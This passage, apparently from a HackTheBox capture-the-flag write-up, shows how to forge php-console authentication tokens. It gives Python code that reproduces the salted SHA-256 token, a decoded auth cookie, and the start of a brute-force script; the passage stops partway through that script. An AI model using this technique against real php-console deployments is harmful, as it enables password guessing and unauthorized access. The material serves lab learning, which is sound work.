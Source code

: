 ```python
>>> import hashlib
>>> password="123456"
>>> salt="NeverChangeIt:)"
>>> password_hash = hashlib.sha256(password.encode()+salt.encode()).digest().hex()
>>> password_hash
'd6b9942d933f39a7ffc037e0d7a590b588e69e2d150cc495b3ebad5b45b78e89'
>>> pub_key="d1d58b2f732fd546d9507da275a71bddc0c2300a214af3f3f3a5f5f249fe275e"
>>> token = hashlib.sha256(password_hash.encode()+pub_key.encode()).digest().hex()
>>> token
'708a7032509aed6adf0556237b842491c0fe990c58b7bc66d36c30a6004c5b09'
>>> 
```

***The public key is calculate based in our ip address(in this case, the hackthebox reverse proxy one), i will not enter in all details but you can take a look [here](https://github.com/barbushin/php-console/blob/aaf84d32782ef6122732b43b1e26cb15fd12f7c5/src/PhpConsole/Auth.php#L72) in the php-console source code, it's very simple***


Now i will enter 123456 in the extension and see if i can get the same token, take a look at our request:

```
Cookie: php-console-server=5; php-console-client=eyJwaHAtY29uc29sZS1jbGllbnQiOjUsImF1dGgiOnsicHVibGljS2V5IjoiZDFkNThiMmY3MzJmZDU0NmQ5NTA3ZGEyNzVhNzFiZGRjMGMyMzAwYTIxNGFmM2YzZjNhNWY1ZjI0OWZlMjc1ZSIsInRva2VuIjoiNzA4YTcwMzI1MDlhZWQ2YWRmMDU1NjIzN2I4NDI0OTFjMGZlOTkwYzU4YjdiYzY2ZDM2YzMwYTYwMDRjNWIwOSJ9fQ==
```
Decoding:

```
{"php-console-client":5,"auth":{"publicKey":"d1d58b2f732fd546d9507da275a71bddc0c2300a214af3f3f3a5f5f249fe275e","token":"708a7032509aed6adf0556237b842491c0fe990c58b7bc66d36c30a6004c5b09"}}
```

Good!! Now its possible to generate our custom ```brute force``` script :), i took a deep and long breath, made some coffe and started to code. And i came up with this php-console bruteforce script!

```python
import hashlib
import sys

import json,base64
import requests


class PHP_ConsoleAuth:
    def __init__(self, password, salt, remote_addr = None, pub_key = None):
        self.password = password
        self.salt = salt
        self.remote_addr = remote_addr
        self.pass_hash = None
        self.token = None   
        self.pub_key = pub_key

    
    def getToken(self):
        self.token =  hashlib.sha256(self.pass_hash.encode() + self.pub_key.encode()).digest().hex()
        return self.token
    
    def setPassword(self, password):
        self.password = password

    def calcPassHash(self):
        self.pass_hash = hashlib.sha256(self.password.encode() + self.salt.encode()).digest().hex()
        return self.pass_hash
```